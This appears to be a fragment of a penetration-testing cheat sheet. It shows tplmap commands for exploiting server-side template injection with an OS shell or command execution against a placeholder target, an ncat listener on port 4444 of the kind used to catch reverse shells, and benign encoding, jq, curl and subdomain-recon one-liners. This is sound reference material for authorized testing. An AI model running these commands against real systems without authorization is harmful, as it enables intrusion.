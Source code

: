     :- Automated SSTI detection and exploitation
    tplmap -u "https://target.com/page?name=FUZZ" --os-shell
    
    :- Test POST parameter
    tplmap -u "https://target.com/search" -d "query=FUZZ" --os-cmd "whoami" 


## ADDITIONAL UTILITIES & SHELL TRICKS

### Encoding/Decoding    
    :- Base64 encode
    echo -n "string" | base64
    
    :- Base64 decode
    echo "c3RyaW5n" | base64 -d
    
    :- For Basic Auth header generation
    echo -n "admin:password" | base64 
    
    :- URL encode
    python3 -c "import urllib.parse; print(urllib.parse.quote_plus('test value?&='))" 
    
    :- URL decode
    python3 -c "import urllib.parse; print(urllib.parse.unquote_plus('test+value%3F%26%3D'))" 
    
    :- Hex encode HTML for some bypasses
    echo "<h1>test</h1>" | xxd -p | tr -d '\n'

### JSON Processing with jq    
    :- Pretty print JSON
    cat data.json | jq .
    
    :- Extract all user names
    cat data.json | jq '.users[].name'
    
    :- Filter objects with status active
    cat data.json | jq 'select(.status=="active")'
    
    :- Wrap multiple JSON objects into an array
    cat file_with_json_lines.txt | jq -s

### Interacting with Services    
    :- GET request with Auth header, pipe to jq
    curl -s -X GET "http://target.com/api/users" -H "Authorization: Bearer TOKEN" | jq . 
    
    :- Netcat listen for incoming connections
    ncat -lvnp 4444
    
    :- Send raw HTTP request from file
    ncat target.com 80 < http_request.txt

### One-liners for Recon Chains    
    :- Find live subdomains
    assetfinder --subs-only target.com | httpx -silent -threads 100 | anew live_subdomains.txt 
    